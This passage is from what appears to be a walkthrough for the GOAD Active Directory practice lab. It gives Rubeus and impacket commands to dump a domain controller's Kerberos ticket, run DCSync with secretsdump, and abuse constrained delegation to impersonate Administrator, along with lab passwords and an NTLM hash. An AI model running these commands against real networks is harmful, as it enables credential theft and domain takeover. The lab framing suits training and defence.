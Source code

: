 - We look on the triage again :
`[Rubeus.Program]::MainString("triage")`

- Now the tgt of kingslanding should be present

- To extract it (relaunch coercer and 1 sec later launch the following dump command):
`[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");`

- We now have the TGT of the domain controller. Let’s continue on linux to pass the ticket and launch dcsync with secretdump by 
1. copying the ticket without space and return line
2. converting the ticket to ccache
3. use the kerberos ticket and launch secretdump

```
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/workspace/unconstrained/ticket.ccache
secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```

## Constrained Delegation
- Find all the constrained delegation with impacket :
`findDelegation.py NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local`

To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.

### With protocol transition
#### From windows with Rubeus
```
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```

#### From linux with impacket:
```
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

Next we can use the TGS to connect to smb and get a shell with psexec, smbexec, wmiexec

### Without protocol transition
- The constrained delegation with protocol transition was not present originally in the lab, but you can add it with the following commands :
`sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml -l dc02 --tags "data,constrained_delegation_kerb"`

- To exploit the constrained delegation here we only need a forwardable TGS as administrator to any service on castelblack
